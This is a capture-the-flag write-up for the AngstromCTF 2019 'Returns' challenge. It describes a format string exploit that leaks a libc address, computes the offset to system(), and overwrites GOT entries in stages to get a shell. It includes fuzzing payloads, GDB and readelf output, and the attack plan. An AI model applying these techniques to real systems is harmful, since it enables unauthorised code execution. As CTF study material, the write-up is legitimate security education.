



# Returns
Binary

## Challenge 

Need to make a return? This program might be able to help you out (source, libc).

/problems/2019/returns/

nc shell.actf.co 19307

Author: kmh11

[returns](returns)

[returns.c](returns.c)

[libc.so.6](libc.so.6)

## Solution

### Challenge objective

Same as the ***AngstromCTF 2019 - Purchases*** challenge, except there is no flag() function. 

We need to call system() ourselves. But system() is not present in PLT, this means that we need to do a leak of libc and then calculate the offset to system.

> Keywords: Format String Attack, Overwrite GOT PLT LIBC 

### Format String Attack

Fuzz for offset and we get offset of 8.

    # ./returns 
    What item would you like to return? 
        ABCDabcd  %lx %lx %lx %lx %lx  %lx %lx %lx %lx %lx  %lx %lx %lx %lx %lx 
    We didn't sell you a ABCDabcd  7fff96bf5620 7f150b4ec8c0 0 7f150b4f1500 7f150b4f1500  1 b3d1d25 6463626144434241 6c2520786c252020 . 

Here's my initial plan

1. Override puts -> main, so I can do format string multiple times.
2. back in main, then I leak libc
3. override fgets to calculated system

Step 1 is pretty standard as the addresses can be easily found in the binary using a disassembler.

### Leaking LIBC addresses

As seen, after the string pointer (which we have at offset 8), we will have some return addresses and variables.

So searching around, I eventually saw something at offset 17

    (gdb) run
    What item would you like to return? %14$lx-%15$lx-%16$lx-%17$lx-%18$lx-%19$lx-%20$lx-
    We didn't sell you a 7fffffff0000-2d3c14d832bc00-401330-7ffff7e2b09b-0-7fffffffecf8-100040000.

Offset 17 has the address `7ffff7e2b09b` which is `__libc_start_main+96`! We will use this to calculate the offset to system().

    (gdb) disass 0x7ffff7e2b09b
       0x00007ffff7e2b0b9 <+265>:   jmpq   0x7ffff7e2b010 <__libc_start_main+96>
       0x00007ffff7e2b0be <+270>:   mov    0x19c603(%rip),%rax        # 0x7ffff7fc76c8

### Calculation of LIBC offsets using GDB

Testing out locally first, we can get a quick offset value using GDB

    (gdb) printf "%p", __libc_start_main
    0x7ffff7e2afb0

    (gdb) printf "%p", system-__libc_start_main
    0x20ca0

    (gdb) disass 0x7ffff7e2afb0+0x20ca0
    Dump of assembler code for function system:
       0x00007ffff7e4bc50 <+0>: test   %rdi,%rdi
       0x00007ffff7e4bc53 <+3>: je     0x7ffff7e4bc60 <system+16>
       0x00007ffff7e4bc55 <+5>: jmpq   0x7ffff7e4b6b0
       0x00007ffff7e4bc5a <+10>:    nopw   0x0(%rax,%rax,1)
       0x00007ffff7e4bc60 <+16>:    sub    $0x8,%rsp
       0x00007ffff7e4bc64 <+20>:    lea    0x13c8b6(%rip),%rdi        # 0x7ffff7f88521
       0x00007ffff7e4bc6b <+27>:    callq  0x7ffff7e4b6b0
       0x00007ffff7e4bc70 <+32>:    test   %eax,%eax
       0x00007ffff7e4bc72 <+34>:    sete   %al
       0x00007ffff7e4bc75 <+37>:    add    $0x8,%rsp
       0x00007ffff7e4bc79 <+41>:    movzbl %al,%eax
       0x00007ffff7e4bc7c <+44>:    retq   
    End of assembler dump.

Using this, we can try and do a format string attack for printf->system replacement.

### Issue with overwriting large addresses

I faced an issue when I have *almost* solved it. 

I noticed that I could do small addresses such as `0x401000` but in this case, the LIBC addresses are huge `0x00007ffff7e4bc50`. No matter how much I tried, I could not get the address to be overwritten properly. 

I tried with some other addresses too. When I want to write 0xdeadbeef, it does not write properly and gives some gibberish.

But if I write 0x00adbeef, it works as expected.

### Explaination for why this occurs

I found out that the number of bytes must not exceed 32-bit signed. 

    Given the buffer input of 50 chars, I could fit in only 2 operations of `%n`.
    
    Let's say I want to write 0x7f9ef245bc50 in 2 operations.
    - ie. writing 0x7f9e and 0xf245bc50 using `%n` twice.

    This will fail because 0xf245bc50 is larger than a signed 32-bit integer.
    Printf format string does not support paddings of that larger than an integer.
    Hence causing an integer overflow and causing some gibberish address being written.

With the limitation of only 50 chars, there is no way to write byte by byte within a single `fgets()` call.

### How to override the address then?

I realised that I must write one at a time with separate and multiple `fgets()` calls.

This means we can only override `printf()` after 4 `%hn` operations are fully completed.

How can we achieve this? Looking at the decompilation...

I saw an unused function `__stack_chk_fail()`. I can use this function to act as a temporary "holder" to store our `system()` function address.

After we have done with 4 `%hn` operations, we can overwrite `printf()` GOT entry to point to the `__stack_chk_fail()` PLT.

## Final Action Plan

It will iterate through `main()` 6 times:

- Iterate 1a: Override `puts()` to `main()`
    + to allow us to access printf format string multiple times
- Iterate 1b: At the same time, leak libc using offset 17.

- Iterate 2: Override word 0 [`__stack_chk_fail()@got` -> `system()`]
- Iterate 3: Override word 1 [`__stack_chk_fail()@got` -> `system()`]
- Iterate 4: Override word 2 [`__stack_chk_fail()@got` -> `system()`]
- Iterate 5: Override word 3 [`__stack_chk_fail()@got` -> `system()`]

- Iterate 6: Override `printf()` -> `__stack_chk_fail()@plt` 
    + `stack_chk_fail()` will then call our `system()`

It seems to be working locally.

Previously I calculated the offsets locally using GDB. Now, update the script to the given server libc offsets.

    # readelf -s ./libc.so.6 | grep __libc_start_main
      2118: 0000000000020740   458 FUNC    GLOBAL DEFAULT   13 __libc_start_main@@GLIBC_2.2.5
    
    # readelf -s ./libc.so.6 | grep system
      1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

And we get a shell.

Final script: [solution/working_solution.py](solution/working_solution.py)

## Flag

    actf{no_returns_allowed}

---

### Resources

Leaking Libc
- https://security.stackexchange.com/questions/186737/bof-how-to-determine-adress-of-system-using-a-leak-memory
- https://security.stackexchange.com/questions/178006/how-to-leak-libc-base-address-using-format-string-exploit
- https://blog.techorganic.com/2016/03/18/64-bit-linux-stack-smashing-tutorial-part-3/
- https://libc.blukat.me/
- https://security.stackexchange.com/questions/155918/can-i-do-a-string-format-exploit-for-x64-systems

Unrelated but interesting reads
- https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
- https://1ce0ear.github.io/2017/10/16/Zerostorage/
